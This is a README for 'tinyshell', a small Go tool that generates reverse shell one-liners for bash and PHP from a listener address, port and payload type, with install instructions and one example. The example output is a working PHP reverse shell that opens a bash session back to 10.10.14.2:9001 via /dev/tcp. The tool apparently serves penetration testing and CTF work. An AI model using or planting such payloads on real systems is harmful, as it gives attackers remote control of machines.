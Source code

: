 # tinyshell 🐚

A minimalistic command-line tool to quickly generate common reverse shell payloads.

## Description

`tinyshell` simplifies the process of creating one-liner reverse shell payloads. Instead of manually typing or looking up the syntax for different shell types, you can use this tool to generate them by simply providing the listener's IP address, port, and the desired payload type.

-----

## Installation

To install `tinyshell`, you'll need to have [Go](https://go.dev/doc/install) installed.

```bash
go install github.com/OtterWiz/tinyshell@latest
```
-----

## Usage

The tool requires three flags to generate a payload: address, port, and type.

### Flags

| Flag | Alias | Description | Required |
| :--- | :---: | :--- | :---: |
| `--address` | `-a` | The listener's IP address (the address the shell connects back to). | Yes |
| `--port` | `-p` | The listener's port. | Yes |
| `--type` | `-t` | The type of payload to generate. | Yes |

### Supported Payloads (so far...)

  * `bash`
  * `php`

-----

## Examples

### 1\. Generating a PHP Payload
To generate a PHP reverse shell payload that connects to `10.10.14.2` on port `9001`:

To generate a PHP reverse shell payload for the same listener:

**Command:**

```bash
tinyshell -a 10.10.14.2 -p 9001 -t php
```

**Output:**

```php
<?php exec("/bin/bash -c 'bash -i >& /dev/tcp/10.10.14.2/9001 0>&1'");
```